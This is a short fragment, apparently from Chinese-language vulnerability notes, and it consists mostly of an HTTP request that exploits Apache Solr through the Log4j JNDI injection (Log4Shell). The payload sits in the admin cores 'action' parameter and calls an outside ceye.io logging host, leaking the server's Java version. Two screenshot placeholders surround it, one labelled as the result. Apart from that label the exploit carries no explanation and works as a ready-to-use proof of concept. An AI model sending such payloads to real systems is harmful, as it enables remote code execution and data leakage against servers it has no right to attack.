 ![image-20240605155808955](assets/image-20240605155808955.png)

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.gg.v72pck.ceye.io} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close

```



结果：

![image-20240605155926555](assets/image-20240605155926555.png)
